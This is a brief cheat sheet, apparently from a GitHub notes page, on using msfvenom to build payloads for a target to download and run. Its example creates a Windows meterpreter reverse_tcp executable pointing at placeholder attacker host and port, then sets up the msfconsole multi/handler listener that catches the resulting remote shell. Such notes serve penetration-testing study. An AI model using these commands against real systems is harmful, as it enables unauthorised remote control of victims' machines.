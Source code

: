 
Can be used to create/encode payloads to be executed on the target (must be first downloaded by the target).
Once payload executed by the target, can connect with `mfsconsole` -> `exploit/multi/.../handler` 


### Payload creation
- `-l payloads`: list all payloads
- `-p <payload>`: create payload
- `--help-formats`: list all available formats
- `-f <format>`: specify the format

### Example

`msfvenom -p windows/meterpreter/reverse_tcp lhost=<my-host> lport=<my-port> -f exe > payload.exe`

[msfconsole]
`use exploit/multi/handler`
`set payload windows/meterpreter/reverse_tcp`
`set lhost <my-host>; set lport <my-port>`
